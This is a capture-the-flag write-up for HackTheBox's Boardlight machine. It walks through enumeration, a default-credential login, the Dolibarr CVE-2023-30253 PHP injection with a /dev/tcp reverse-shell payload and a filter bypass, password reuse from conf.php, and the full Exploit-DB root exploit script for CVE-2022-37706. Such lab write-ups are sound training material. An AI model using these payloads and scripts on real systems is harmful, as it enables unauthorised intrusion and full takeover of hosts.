 ## Writeup for Boardlight from HackTheBox


First an nmap scan was performed on the target machine which returned this output:

```bash
$ nmap -sC -sV 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 07:32 EDT
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 07:33 (0:00:00 remaining)
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.56 seconds
```


The nmap scan revealed a HTTP server on port 80. Upon visiting the website, a static website is displayed. It is clear that the site is static as any form submissions do not reach any endpoint in the server. However, the page does reveal the domain name `board.htb`.


Next, a search for any subdomains in `board.htb` was then conducted:


```bash
$ wfuzz -c -u 'http://board.htb' -H "Host:FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 1053
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"        

Total time: 174.4353
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 28.60085
```


The crm subdomain was found. After adding it to /etc/hosts and visiting the site a Dolibarr 17.0.0 login page was found.


![Dolibarr 17.0.0 login page](images/image1.png)


A quick google search for the default credentials for this login page reveals that it is admin:admin. Using these credentials, login to the admin dashboard is successful.


![Dolibarr admin dashboard](images/image2.png)


Furthermore, research was performed on Dolibarr 17.0.0 to see if it is vulnerable to any exploits. Soon, it was found to be vulnerable to CVE-2023-30253, which is a PHP code injection vulnerability. The vulnerability used is as described in `https://www.swascan.com/security-advisory-dolibarr-17-0-0/`.


To exploit this first visit the websites page in the top nav bar on the dashboard and create a new website.


![Create a website](images/image3.png)


Next, create a page for the website.


![Create a page for the website](images/image4.png)


Next, edit the HTML source for the page that was just created, and replace the page's source code with the following PHP code: `<?PHP echo system("bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'); ?>"`. The software does perform some filtering on the PHP code that is used for the page, hence, using \<?PHP ?> tags rather than \<?php ?> tags helps bypass this filtering. Then, a netcat listener was started. Upon saving the source code for this page, the listener should receive a reverse shell as `www-data` from the `boardlight` machine.


![Create a website](images/image5.png)


Within /home, a user `larissa` could be found. The credentials needed to become `larissa` could be found in the configuration files needed for Dolibarr to connect to the database on the machine. In `crm.board.htb/htdocs/conf/conf.php` a password can be found that can be used to successfully log in as `larissa`.


```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```


After establishing a SSH connection to the machine as `larissa`, it was checked whether she had any sudo permissions using `sudo -l`. However, it was found that `larissa` was not permitted to run any `sudo` commands.


To further aid with enumeration to escalate privileges, Linpeas was then employed. Within the output of Linpeas, it was discovered that some binaries related to the `Enlightenment` software were SUID binaries. 


```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                          
                      ╚════════════════════════════════════╝                                                                                                
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                            
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                   
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

Performing some research online on whether this software can be exploited reveals that this software have been vulnerable to CVE-2022-37706 in the past. The code used for exploiting this vulnerability can be found in `https://www.exploit-db.com/exploits/51180`.


```bash
!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```


Upon executing this code, a root shell is spawned, giving the attacker full previleges.


```bash
larissa@boardlight:~$ bash script.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

Overall, the steps for obtaining a foothold on the box were straightforward. However, during the privilege escalation phase, I was reminded of the importance of patient enumeration in uncovering the files on the machine which provided a pathway to become the larissa and root users. Upon discovering the SUID Enlightenment files, I was at first surprised that the vulnerability would not be found on GTFOBins but rather as a public exploit on Exploit-DB, illustrating the importance of thorough research in penetration testing.